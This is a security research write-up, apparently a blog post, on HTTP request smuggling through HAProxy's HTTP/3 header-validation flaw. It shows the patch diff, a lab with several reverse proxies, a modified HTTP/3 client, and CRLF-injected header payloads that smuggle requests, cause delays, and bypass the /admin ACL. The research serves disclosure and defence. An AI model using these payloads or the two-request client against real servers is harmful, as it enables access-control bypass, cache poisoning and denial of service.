








## Introduction

HTTP request smuggling is a well known web vulnerability that occurs when an attacker is able to send a request that is interpreted differently by two or more web servers/reverse proxies. On this blog post, will be presented how we can archive HTTP Request Smuggling due to wrong RFC HTTP/3 implementation in HAProxy and its behavior. This is a continuation of the previous research on [CVE-2023-25950 - HTTP3ONSTEROIDS](https://github.com/dhmosfunk/HTTP3ONSTEROIDS).

## Executive Summary

This research reveals a vulnerability in HAProxy’s HTTP/3 implementation that enables HTTP request smuggling attacks through malformed HTTP headers. HAProxy does not correctly validate header names under HTTP/3, allowing malformed headers to be forwarded to backend servers. As a result a attacker can smuggle unauthorized HTTP requests, bypass HAProxy’s access controls (such as ACL restrictions on sensitive routes like /admin), and trigger unintended behavior in downstream servers and applications. 

The vulnerability was demonstrated in a lab environment with HAProxy fronting various reverse proxies (NGINX, Apache, Varnish, Squid, Caddy) and a backend application, showing how different servers interpret malformed headers inconsistently. Some servers reject the smuggled requests, while others accept and process them, amplifying the risk. To exploit this flaw over HTTP/3, the research modified a minimal HTTP/3 client to maintain persistent QUIC connections and send multiple requests, allowing smuggled requests to be executed and their responses to be received.

## Understanding HTTP Request Smuggling

Before we dive into the specifics of HTTP/3 and HAProxy, let's briefly explain what HTTP request smuggling is. In essence, it exploits discrepancies in how different servers interpret HTTP requests, allowing to "smuggle" a second or more requests through a single request. For example, if a client sends a request with two different Content-Length headers, one server might interpret it as a single request while another sees it as two separete requests. Another example is when a server accepts a request with a malformed header name or value that is not rejected by frontend server and is passed to the next reverse proxy or backend server. There are many types of HTTP request smuggling attacks and all of them rely on the fact that different servers interpret the same request differently. 

Until now, known HTTP request smuggling attacks have been presented and documented on the HTTP/1.1 and HTTP/2 protocols. Some of them are:
- CL.TE: Content-Length and Transfer-Encoding headers conflict 
- TE.CL: Transfer-Encoding and Content-Length headers conflict
- CL.CL: Two Content-Length headers with conflicting values
- TE.TE: Two Transfer-Encoding headers with conflicting values

Below is presented a CL.TE raw request example:

```http
POST /smuggled HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Transfer-Encoding: chunked

1
q=smuggling

0

GET /admin HTTP/1.1
Example: x
```

On HTTP/2 protocol:
- H2.CL: HTTP/2 request with Content-Length header
- H2.TE: HTTP/2 request with Transfer-Encoding header

HTTP/2 Downgrading. This is a interesting behavior between frontend and next reverse proxies. When backend server only supports HTTP/1.1 but the frontend clients are using HTTP/2, the frontend will rewrite the request to HTTP/1.1 and send it to the next reverse proxy or backend server. Similar behavior is observed on HAProxy HTTP/3 implementation, where the frontend server will downgrade the request to HTTP/1.1.



## Lab Setup & Architecture

To demonstrate the HTTP request smuggling vulnerability, we will set up a environment with HAProxy configured to handle HTTP/3 requests. The enviroment includes HAProxy as the first reverse proxy, followed by a several reverse proxies NGINX, Apache, Varnish, Squid, Caddy and finally a written in flask backend application. The goal is to exploit the differences in how these servers interpret malformed HTTP headers.

The lab enviroment can be found in the [lab](https://github.com/dhmosfunk/HTTP3ONSTEROIDS/tree/main/lab) directory of the previous research repository.

The backend application is capturing all received requests and stores them in a file called requests.log. This file is used to verify if the request smuggling was successful and if the backend application received the request.



HAProxy configuration is set to block access to the `/admin` route.

```haproxy
frontend haproxy
  <snippet>

  acl forbidden_path path -i /admin
  http-request deny if forbidden_path
  
  <snippet>
```

Testing the lab enviroment and test ACL restriction in HAProxy:

```bash
$ python3 minimal_http3_client.py https://lab.local/admin --debug
```

```http
:status: 403
content-length: 93
cache-control: no-cache
content-type: text/html

<html><body><h1>403 Forbidden</h1>
Request forbidden by administrative rules.
</body></html>
```

## HTTP/3 Client Limitations and Tooling Alternatives

Since Burp Suite does not support HTTP/3 requests, in this blog post the [minimal HTTP/3 client](https://github.com/dtmsecurity/http3/blob/main/minimal_http3_client.py) written in Python is used to send HTTP/3 requests. This allows to send malformed header names and values. 

The way the client works is by sending a single HTTP/3 request, waiting for the response and then closing the QUIC connection. This is a problem when it comes to HTTP request smuggling, since we needed to maintain the QUIC connection open and send a second request to receive the smuggled request response.

The client was not designed to handle multiple requests in the same QUIC connection, so we had to modify it to support this feature. The modified client is available in [http3_client_2r.py]().

Below is the code snippet of the modified client that allows to send the two requests in the same QUIC connection:

```python
<snippet>
async def run_requests(url: str, debug: bool = False):
    <snippet>
        request_headers = {
            "fooo": "bar", # --> malformed headers
        }
        data1, headers1 = await asyncio.wait_for(
            client.send_http_request(parsed_url.path or "/", # --> first request to /parsed_url
                                   request_method="GET",
                                   request_headers=request_headers),
            timeout=Config.DEFAULT_TIMEOUT
        )

        print("="*80)
        print("First request response:")
        for k, v in headers1.items():
            print(f"{k}: {v}")
        print("Data response:")
        print(data1.decode())

        data2, headers2 = await asyncio.wait_for(
            client.send_http_request("/404", # --> second request to /404
                                   request_method="GET"),
            timeout=Config.DEFAULT_TIMEOUT
        )

        print("="*80)
        print("Second request to /404 response:")
        for k, v in headers2.items():
            print(f"{k}: {v}")
        print("Data response:")
        print(data2.decode())
<snippet>
```
With this modification, we was able to send two requests and observe the responses and behavior of the servers. 

## Background & Patch

HAProxy is a popular open-source load balancer and reverse proxy server that supports HTTP/3. However, its implementation of HTTP/3 in some versions has some quirks that can lead to unexpected behavior, especially when it comes to handling HTTP headers.

Based on the previous research, the HTTP/3 implementation in HAProxy has a bug that allows malformed header names and header values to be sent to the next reverse proxy or backend server without rejection and reseting the connection. Example request and response:

```bash
$ curl --http3 -H "foooooo\r\n: barr" -iL -k  https://foo.bar/
```

```http
HTTP/3 200 
server: foo.bar  
date: foo  
content-type: text/html; charset=utf-8
content-length: 76
alt-svc: h3=":443";ma=900;

Host: foo.bar
User-Agent: curl/8.1.2-DEV
Accept: */*
Foooooo\R\N: barr <-- Malformed header
``` 

As shown, the malformed header `Foooooo\r\n: barr` is accepted and passed through instead of being rejected. This behavior violates HTTP/3 RFC specifications, which require intermediaries to sanitize or reject malformed headers and, reset the connection e.g.

```
curl: (56) HTTP/3 stream 0 reset by server
```

At the time of the initial investigation into the CVE, the HAProxy team had already released a patch addressing the issue. The patch ensures that malformed headers are properly rejected and that the connection is reset, preventing any further processing of the request.

```diff
--- a/src/h3.c
+++ b/src/h3.c
@@ -352,7 +352,27 @@ static ssize_t h3_headers_to_htx(struct qcs *qcs, const struct buffer *buf,
        //struct ist scheme = IST_NULL, authority = IST_NULL;
        struct ist authority = IST_NULL;
        int hdr_idx, ret;
-       int cookie = -1, last_cookie = -1;
+       int cookie = -1, last_cookie = -1, i;
+
+       /* RFC 9114 4.1.2. Malformed Requests and Responses
+        *
+        * A malformed request or response is one that is an otherwise valid
+        * sequence of frames but is invalid due to:
+        * - the presence of prohibited fields or pseudo-header fields,
+        * - the absence of mandatory pseudo-header fields,
+        * - invalid values for pseudo-header fields,
+        * - pseudo-header fields after fields,
+        * - an invalid sequence of HTTP messages,
+        * - the inclusion of uppercase field names, or
+        * - the inclusion of invalid characters in field names or values.
+        *
+        * [...]
+        *
+        * Intermediaries that process HTTP requests or responses (i.e., any
+        * intermediary not acting as a tunnel) MUST NOT forward a malformed
+        * request or response. Malformed requests or responses that are
+        * detected MUST be treated as a stream error of type H3_MESSAGE_ERROR.
+        */
 
        TRACE_ENTER(H3_EV_RX_FRAME|H3_EV_RX_HDR, qcs->qcc->conn, qcs);
 
@@ -416,6 +436,14 @@ static ssize_t h3_headers_to_htx(struct qcs *qcs, const struct buffer *buf,
                if (isteq(list[hdr_idx].n, ist("")))
                        break;
 
+               for (i = 0; i < list[hdr_idx].n.len; ++i) {
+                       const char c = list[hdr_idx].n.ptr[i];
+                       if ((uint8_t)(c - 'A') < 'Z' - 'A' || !HTTP_IS_TOKEN(c)) {
+                               TRACE_ERROR("invalid characters in field name", H3_EV_RX_FRAME|H3_EV_RX_HDR, qcs->qcc->conn, qcs);
+                               return -1;
+                       }
+               }
+
                if (isteq(list[hdr_idx].n, ist("cookie"))) {
                        http_cookie_register(list, hdr_idx, &cookie, &last_cookie);
                        continue;
```

[Repositories - haproxy-2.7.git/commit](https://git.haproxy.org/?p=haproxy-2.7.git;a=blobdiff;f=src/h3.c;h=5f1c68a29e5d05f4ce18e8dfea2334b7009aa03e;hp=97e821efefb3d52b4d55d311c4043194247ad2ea;hb=3ca4223c5e1f18a19dc93b0b09ffdbd295554d46;hpb=20bd4a8d1507e3ee6d52cc5af6c23a006b0e3a75)

On the above code snippet, the HAProxy team added a check to ensure that the header names do not contain uppercase characters and that they only contain valid HTTP token characters. If the header name contains uppercase characters or invalid characters, the request is rejected and a stream error is returned.

During the process of reproducing the issue and creating a proof of concept, the advisory description sometimes is helpful, as it clearly outlines the nature of the vulnerability: `HAProxy's HTTP/3 implementation fails to block a malformed HTTP header field name, and when deployed in front of a server that incorrectly process this malformed header, it may be used to conduct an HTTP request/response smuggling attack. A remote attacker may alter a legitimate user's request. As a result, the attacker may obtain sensitive information or cause a denial-of-service (DoS) condition.`

## Playground: Smuggling Requests

With the modified client ready, we can begin sending requests and observing how the servers respond. The first goal is to evaluate how HAProxy handles malformed headers, followed by how downstream reverse proxies interpret them.

The approach is simpe. Construct a request with a malformed header name containing CRLF sequence and raw HTTP smuggled request.

```http
"\r\n\r\nGET /admin HTTP/1.1\r\nHost: foo\r\n\r\na":"bar"
```

This request contains a CRLF sequence in the header name, which is not valid according to HTTP/3 RFC specifications. However, HAProxy accepts this request and passes it to the next reverse proxy or backend server. Let's take a look at how different reverse proxies handle this request. 

| Reverse Proxy | Interpreted as request | Response Status |
|---------------|------------------|------------------|
| NGINX         | Yes               | 400 Bad Request  |
| Apache        | Yes               | 400 Bad Request  |
| Varnish       | Yes               | 400 Bad Request  |
| Squid         | Yes               | 200 OK  |
| Caddy         | No               | -           |

The table above summarizes the behavior of different reverse proxies when receiving a request with a malformed header name. NGINX, Apache, and Varnish accepts the smuggled request and return a 400 Bad Request status code, while Squid accepts the request and returns a 200 OK status code. Caddy does not interpret the request as valid and does not return any response. The 400 Bad Request status code indicates that the request was invalid since the HTTP/1.1 version is in lowercase and not valid according to specifications and how each reverse proxy handles the HTTP version.

Here’s a request with a malformed header name that Squid accepted and processed successfully:



In contrast, the following request results in a 400 Bad Request response from Varnish due to the malformed header:



During tests various encodings were used to encode the HTTP version in uppercase, such as `"\u0048\u0054\u0054\u0050"` and `"\x48\x54\x54\x50"`, but HAProxy still automatically converts the header names to lowercase.

Well, what about the payload stored in header value? 

```http
"foo":"bar\r\n\r\nGET /admin HTTP/1.1\r\nHost: foo"
```

This request is interpreted as a valid request by NGINX, Apache, and Varnish, and returns a 200 OK status code. Squid also accepts this request and returns a 200 OK status code. Caddy does not interpret the request as valid and does not return any response.

| Reverse Proxy | Interpreted as request | Response Status |
|---------------|------------------|------------------|
| NGINX         | Yes               | 200 OK           |
| Apache        | Yes               | 200 OK           |
| Varnish       | Yes               | 200 OK           |
| Squid         | Yes               | 200 OK           |
| Caddy         | No               | -           |

This is a significant difference in behavior compared to the previous request with a malformed header name. The payload stored in the header value is accepted and processed by the reverse proxies, allowing the smuggled request to be executed.



As we can see in the screenshot, NGINX returns a 200 status code and the requests.log file in the backend application shows that the request was successfully smuggled and the backend application received the request to the `/admin` route.



Now? There are some other payloads that can be used to identify successful request smuggling causing delays on the smuggled request.

The below payload causes a delay on the smuggled request with invalid transfer-encoding chunked.

```
"foo":"bar \r\n\r\nPOST /delay HTTP/1.1\r\nHost: localhost\r\nContent-Type: application/x-www-form-urlencoded\r\nTransfer-Encoding: chunked\r\n\r\n9999\r\n"
```

The below payload causes a delay on the smuggled request with content-length.

```
"foo":"bar \r\n\r\nPOST /delay HTTP/1.1\r\nHost: localhost\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 6\r\n\r\n"
```

Example screenshot:

 

## Bypassing ACL restriction

What about `/admin` route? So far, we've successfully smuggled a request to the `/admin` route but without receiving a response. As mentioned earlier, in order to retrieve the response from a smuggled request over HTTP/3, the QUIC connection must remain open, and a second request must be sent over the same connection.

During initial testing before implementing the modified client I noticed that every attempt to trigger a smuggled response back to the client failed. At that point, I took a step back to reflect on why the response wasn’t being returned.

The answer turned out to be simple: the QUIC connection used by the first request was already closed. Without that connection remaining open, there was no channel for the backend server to send the response through. It seems the server requires the same QUIC connection to return the smuggled response.

Still. No response from the smuggled request. After some testing, I found that sending a request with double `content-length` header with conflicting values causes conflict the server may process the headers inconsistently and thus can retreive the smuggled request response.

```
"foo":"bar \r\n\r\nGET /admin HTTP/1.1\r\nHost: localhost\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Lenght: 1\r\nContent-Length: 40\r\n\r\n"
```

Below is the request that successfully bypasses the ACL restriction in HAProxy and retrieves the response from the smuggled request:



Finally, the `/admin` endpoint was reached, and the corresponding response was captured.

```
Hello, pepega Admin! This is a protected route. H3.X HTTP/3 ON STEROIDS/reborned!
```

## Impact 

The HTTP/3 implementation flaw in HAProxy allows attackers to send malformed headers that bypass security checks and are forwarded to backend servers. This enables HTTP request smuggling attacks that can:

- Bypass access controls, allowing unauthorized access to restricted routes.
- Cause unexpected behavior in backend applications, leading to potential data leakage or corruption.
- Access sensitive data or internal endpoints
- Cause denial-of-service by confusing downstream servers
- Session hijacking by manipulating ongoing user sessions
- Cache poisoning to serve malicious content to users
- Unauthorized execution of actions on behalf of legitimate users

## Conclusion 

This research highlights a critical vulnerability in HAProxy’s HTTP/3 implementation that enables HTTP request smuggling through malformed headers. The flaw allows attackers to bypass security controls, inject unauthorized requests, and cause significant security and operational risks. Due to the widespread use of HAProxy in modern web infrastructure, timely patching and awareness are essential to prevent potential exploitation. Proper validation of HTTP/3 headers and adherence to RFC specifications are crucial to mitigating such vulnerabilities and ensuring secure request handling.